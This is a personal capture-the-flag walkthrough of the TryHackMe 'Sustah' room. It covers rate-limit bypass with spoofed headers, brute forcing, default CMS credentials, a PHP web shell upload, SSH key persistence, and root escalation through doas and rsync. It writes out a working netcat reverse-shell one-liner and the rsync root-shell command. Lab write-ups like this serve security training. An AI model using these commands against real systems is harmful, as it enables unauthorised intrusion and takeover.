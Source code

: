 # Sustah

https://tryhackme.com/room/sustah

"The developers have added anti-cheat measures to their game. Are you able to defeat the restrictions to gain access to their internal CMS?"

An easy-ish room (solved it in under an hour, which is good for me), with some new tricks I haven't used before.

1. NMap revealed 22, 80 and 8085. Both 80 and 8085 looked like single page websites, with nothing on 80
2. 8085 hosted a 'Spinner' site, where you had to guess a number. Throwing this into burp intruder quickly ran into a strict ratelimit. The hint for this was 'what headers can you add?'
3. Researching bypassing ratelimiting, I tried a bunch of things. Eventually adding the following headers and header values got me through:

  ```
  X-Originating-IP: 127.0.0.1
  X-Forwarded-For: 127.0.0.1
  X-Remote-IP: 127.0.0.1
  X-Remote-Addr: 127.0.0.1
  X-Client-IP: 127.0.0.1
  X-Host: 127.0.0.1
  X-Forwared-Host: 127.0.0.1
  ```
  
  This was from https://book.hacktricks.xyz/pentesting-web/rate-limit-bypass. Later, looking at the spinner code, it was specifically set to bypass limiting for `X-Remote-Addr` with that localhost value.
  
4. Now I was able to brute force the number, using Intruder to attack with 500 threads and all numbers from 10000 to 99999 (as the answer field showed five digits). Getting the right number revealed a hidden path under the 80 site.

5. On this site was a CMS - I won't say the type as that is one of the room's questions. I was able to find credentials on one of its pages on the site-map, which turned out to be publically documented default credentials. There was also a known exploit, where if you have creds for an admin user (as the default user is) you can access a file upload screen that doesn't do any vetting. The version of the CMS was one of the other questions - I submitted the version on the exploit entry from exploit-db, which was correct.

6. Uploading a PHP web shell, I connected back to my attack machine with `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.7.78 4444 >/tmp/f`

7. On the machine, www-data had no access to find and there wasn't anything obvious. The question hint, however, said something about interesting backups. Checking `/var/backups`, I found a hidden file called `.bak.passwd`, which contained the password for `kiran`, the only user with a home folder.

8. As kiran I got the user flag, then added my ssh pub key to a new authorized_keys entry under a new .ssh folder (chmod 700 on the .ssh folder, and 600 on authorized keys, I always need to look this up). Afterwards I could ssh in easily.

9. Basic enumeration got me nowhere. The question hint was 'you dont always need sudo', but it wans't until I ran linpeas that I figured out what this alluded to: there is a quasi-alternative to sudo called `doas`. Specifically, here kiran was able to run `rsync as root` via doas (as can be seen in `doas.conf`, which linpeas checked for me).

10. The final privesc was `doas -u root rsync -e 'sh -p -c "sh 0<&2 1>&2"' 127.0.0.1:/dev/null` which got me a root shell and the final flag, the rsync args coming from gtfo-bins.
